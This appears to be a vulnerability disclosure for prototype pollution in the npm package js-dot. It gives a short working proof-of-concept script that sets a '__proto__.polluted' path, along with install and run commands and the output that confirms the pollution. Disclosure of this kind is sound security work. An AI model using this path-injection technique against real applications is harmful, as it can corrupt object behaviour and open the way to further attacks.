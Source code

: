 # Description

Prototype Pollution in js-dot

# Proof of Concept

1. Create the following PoC file:

```
// poc.js
var jsDot = require("js-dot")
var obj = {}
console.log("Before : " + {}.polluted);
jsDot.set(obj,"__proto__.polluted","Yes! Its Polluted");
console.log("After : " + {}.polluted);
```

2. Execute the following commands in terminal:

```
npm i js-dot # Install affected module
node poc.js #  Run the PoC
```

3. Check the Output:
```
Before : undefined
After : Yes! Its Polluted
```

